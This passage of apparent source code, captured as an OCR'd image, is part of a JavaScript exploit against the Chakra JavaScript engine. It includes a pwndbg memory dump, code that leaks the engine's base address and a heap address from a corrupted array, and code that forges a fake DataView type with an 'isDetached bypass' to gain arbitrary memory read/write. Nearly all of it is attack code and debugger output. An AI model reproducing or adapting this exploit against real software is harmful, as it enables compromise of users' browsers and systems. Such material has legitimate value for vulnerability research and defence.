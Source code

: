 ```
uint32arr, uint32arr, uint32arr, uint32arr,
//0x66666624, 0x66666625, 0x66666626, 0x66666627,
null, null, null, null,
//0x66666628, 0x66666629, 0x6666662a, 0x6666662b
null, null, null, null
]);
}
/*
pwndbg&gt; dq 0x7ffff15843d0 40
00007ffff15843d0     000100005a6b7c8d 0001000013371337
00007ffff15843e0     0001000013371338 0001000013371339
00007ffff15843f0     000100001337133a 000100001337133b
00007ffff1584400     000100001337133c 000100001337133d
00007ffff1584410     000100001337133e 000100001337133f
00007ffff1584420     0001000000000000 0001000000000000
00007ffff1584430     0001000000000000 0001000000000000
00007ffff1584440     0001000000000000 0001000000000000
00007ffff1584450     0001000000000000 0001000000000000
00007ffff1584460     00007ffff6487800 00007ffff1694f00 &lt;- karr3
00007ffff1584470     0000000000000000 0000000000050005
00007ffff1584480     0000000000000010 00007ffff15844a0
00007ffff1584490     00007ffff15844a0 00007ffff7e489c0
00007ffff15844a0     0000001000000000 0000000000000012
00007ffff15844b0     0000000000000000 222222227f7f7f7f
00007ffff15844c0     4444444433333333 6666666655555555
00007ffff15844d0     7fffffff77777777 0003133700031337
00007ffff15844e0     0003133700031337 0003133700031337
00007ffff15844f0     0003133700031337 8000000280000002
00007ffff1584500     00007ffff6487800 00007ffff1694f00
*/
/* now leak what we need */
var seg = evilarr[0];
var lo_leak = u32(seg[34]);
var hi_leak = u32(seg[35]);
var leak_addr = hi_leak * 0x100000000 + lo_leak;
console.log("leak_addr = 0x" + leak_addr.toString(16));
var chakra_base = leak_addr - 0xc8f800;
console.log("chakra_base = 0x" + chakra_base.toString(16));
var lo_leak = u32(seg[44]);
var hi_leak = u32(seg[45]);
var heap_leak = makeqword(lo_leak, hi_leak);
console.log("heap_leak = 0x" + heap_leak.toString(16));
var clear_zero = chakra_base + 0x5a8db0;
/* fake DataView type */
seg[56] = 56;
seg[57] = 0;
seg[58] = loword(heap_leak);
seg[59] = hiword(heap_leak);
seg[60] = loword(clear_zero);
seg[61] = hiword(clear_zero);
var fake_table = heap_leak + 0x28 - 0x340;
var fake_table_addr = heap_leak + 0x30;
seg[62] = loword(fake_table);
seg[63] = hiword(fake_table);
var faketype = heap_leak + 0x18;
seg[36] = loword(faketype);
seg[37] = hiword(faketype); // fake type
seg[44] = loword(fake_table_addr);
seg[45] = hiword(fake_table_addr); // isDetached bypass
seg[42] = 0x200; // length
seg[48] = loword(chakra_base);
seg[49] = hiword(chakra_base); // addr
//console.log(fdv.getUint32.call(karr3, 0, true));
```